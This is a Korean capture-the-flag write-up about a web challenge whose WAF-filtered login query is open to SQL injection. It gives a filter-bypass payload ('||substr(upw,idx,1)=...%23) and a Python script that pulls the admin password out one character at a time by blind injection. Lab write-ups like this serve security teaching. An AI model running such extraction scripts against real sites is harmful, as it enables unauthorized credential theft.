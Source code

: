 사용자로부터 입력을 받은 값을 check_WAF로 한번 필터링 한 후 그 필터링한 값을 쿼리에 **직접 넣어** SQL Injection 공격에 취약해 지는 모습이다. 따라서 필터링을 우회하여 sql injection을 공격을 하면 된다.

그리고 결과 값중 두번째 값(result[1])만 출력해서 보여주므로 select * from users where uid=’admin’의 경우 idx, uid, upw중 uid값이 나온다. 따라서 공격 결과인 admin의 upw가 두번째로 오도록 조정해주어야한다.

# 공격 설계

1. 우리의 목적은 admin(uid)의 upw값이다.
2. sql injection이 가능하다.
3. 필터링을 우회하기 위해 ||, &&, substr 을 사용한다.

이를 위해서 먼저 우리가 원하는 user 테이블의 upw의 첫번째 글자가 D인 경우는 admin 밖에 없으므로 or을 ||로 우회하여 제대로 출력이 되는지를 확인해보자.

![우회.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d0e18efa-fc94-4f22-bf41-6bd4d79d8a31/%EC%9A%B0%ED%9A%8C.png)

```python
INSERT INTO user(uid, upw) values('abcde', '12345');
INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
INSERT INTO user(uid, upw) values('guest', 'guest');
INSERT INTO user(uid, upw) values('test', 'test');
INSERT INTO user(uid, upw) values('dream', 'hack');
```

upw의 첫글자가 D인 경우는 admin밖에 없으므로 2, admin, DH 의 결과값중 두번째인 admin이 출력된 것을 볼 수 있다. 

![거짓일때.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a5f943fe-3765-4b65-87af-503d33cdd086/%EA%B1%B0%EC%A7%93%EC%9D%BC%EB%95%8C.png)

반대로 참인 경우가 아예 없을 때는 아무것도 뜨지 않는다.

이를 이용해서 Blind SQL Injection을 통해 upw의 값을 하나하나 따져가면서 admin이 나오는 경우(upw값을 제대로 예측했을 때)만 모아서 플래그 값을 찾으면 된다. 

그럼 이를 위해 파이썬으로 자동화 코드를 짜보자.

```python
import requests
flag=''
idx=1

while True:
    for i in range(32,128):#아스키코드
        now=chr(i)
        query=f"http://host3.dreamhack.games:14271/?uid='||substr(upw,{idx},1)='{now}'%23"
        response=requests.get(query)
        if 'admin' in response.text:
            flag+=chr(i)
            idx+=1
            print('flag:',flag)
            break
					
    if '}'in flag:
        print(flag)
        break
```
